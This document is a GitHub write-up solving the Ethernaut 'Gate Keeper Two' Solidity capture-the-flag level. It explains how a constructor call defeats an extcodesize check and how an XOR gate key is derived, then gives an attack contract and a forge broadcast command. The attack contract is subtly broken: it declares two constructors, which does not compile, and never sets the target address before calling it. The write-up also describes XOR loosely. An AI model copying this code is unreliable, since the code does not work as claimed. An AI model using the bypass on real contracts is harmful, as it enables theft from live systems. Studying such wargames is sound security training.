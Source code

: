 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/14-gate2.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 14 - Gate Keeper Two</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [modifier one](#modifier-one)
  - [modifier two](#modifier-two)
  - [modifier three](#modifier-three)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/14-gate2-requirements.webp" width="800px"/>

## The hack

Another gatekeeper here with three modifiers to pass. So let's see how to pass them.

### modifier one

```javascript
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

Lucky us, this is the same modifier as the previous level, so we can use a contract to call the function. Or can we?

### modifier two

```javascript
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```

The `extcodesize` opcode returns the size of the code at the given address, `caller()` here. If the address is a contract, it will return the size of the contract's code. If the address is an EOA (Externally Owned Account), it will return 0.

So, it seems that we can't use an intermediary contract after all. However, there is no way to pass the first gate otherwise. Is there another solution then?

Well yes, there is. If we execute our call from a `constructor`, the `extcodesize` will return 0 since the contract hasn't been deployed yet technically. So this is how we can pass the second gate.

### modifier three

```javascript
modifier gateThree(bytes8 _gateKey) {
     require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

This one looks pretty ugly at first glance, but let's take a better look at the XOR operator first. The XOR operator returns true if the two operands are different. So, if `A ^ B == C`, then `A ^ C == B` and `B ^ C == A`. So we could rewrite the modifier like this (which is much nicer, let's be honest):

```javascript
modifier gateThree(bytes8 B) {
    require(uint64(A) ^ uint64(B) == uint64(C));
    _;
}
```

In other words, no need to think too much here, the `_gateKey` will be simply equal to:

```java
bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
```

## Solution

We can now write our contract to pass the three gates:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract LockPickingTwo {
    address private gateKeeperTwo;

    constructor(address _gateKeeperTwo) {
        gateKeeperTwo = _gateKeeperTwo;
    }

    constructor() {
        attack();
    }

    function attack() private {
        bytes8 _gateKey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^
                type(uint64).max
        );

        (bool success, ) = gateKeeperTwo.call(
            abi.encodeWithSignature("enter(bytes8)", _gateKey)
        );
        require(success, "Attack failed");
    }
}
```

Then, run the script with the following command:

```bash
forge script script/14_GateKeeperTwo.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- The `extcodesize` opcode returns the size of the code at the given address.
- The contract's size is 0 in the constructor.
- The XOR operator `^` returns true if the two operands are different.

## Reference

- [Distinguishing EOA from Smart Contracts Securely](https://blog.solidityscan.com/distinguishing-eoa-and-smart-contracts-securely-911dc42fdf13)

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
